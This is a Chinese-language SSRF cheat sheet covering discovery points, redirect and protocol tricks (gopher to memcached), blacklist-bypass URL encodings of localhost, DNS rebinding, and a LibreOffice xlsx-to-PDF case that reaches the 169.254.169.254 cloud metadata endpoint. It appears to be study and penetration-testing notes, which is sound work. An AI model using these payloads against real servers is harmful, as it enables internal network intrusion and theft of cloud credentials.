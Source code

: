 ## SSRF发现&利用


1、WEB参数点
- url，callback，img等
- HTML/PDF/img的渲染处
- xml、docx、odt等文件（XXE）
- 通过SVG文件上传，参考https://github.com/allanlw/svg-cheatsheet
- 反向代理/负载均衡处：请求头，Host，Referer，X-Forwarded-For


2、重定向
- 重定向到指定Host下（Location: http://127.0.0.1）
- 重定向更改协议（Location: gopher://127.0.0.1:11211/_data）
- 结合重定向漏洞
- 绕过重定向保护（301,302,307等）


3、绕过黑名单保护
### URL解析绕过
- http://evil$google.com，
- http://127.1.1.1:80\@127.2.2.2:80/，
- http://127.1.1.1:80\@@127.2.2.2:80/，
- 0://evil.com:80;http://google.com:80/ 
- Unicode编码
- 地址进制转换（http://0177.0.0.01，http://2130706433/， http://0x7f.0x0.0x0.0x1， http://0177.0x0.0x0.1）
- localhost变换
- IPv6地址变换


4、支持的协议
- ftp（tftp、sftp）
- http（https）
- unc路径
- file、netdoc（Java）文件读取
- jar、dict、gopher、ldap


5、DNS重绑定


6、利用
- 内网扫描（HTTP服务、redis服务）
- 文件读取（依赖协议）
- 绕过403、401等localhost


### 参考
- https://github.com/hackerscrolls/SecurityTips/blob/master/MindMaps/SSRF.png
- [SSRF Tips](https://blog.safebuff.com/2016/07/03/SSRF-Tips/)
- https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/
- [多个应用的盲SSRF](https://github.com/assetnote/blind-ssrf-chains)
- [LibreOffice转换PDF导致的SSRF](https://r4id3n.medium.com/ssrf-exploitation-in-spreedsheet-to-pdf-converter-2c7eacdac781)



#### LibreOffice转换PDF导致的SSRF
- `<img src="http://127.0.0.1">`，发现并不能拿到127的内容，有安全机制；
- `<img src=”http://myvps:1337”>`，vps接收到响应，根据UA得知是LibreOffice，
- 利用上传xlsx的功能，在content.xml中注入payload，在转换成pdf过程中实现SSRF拿到敏感信息（[169.254.169.254]的metadata）
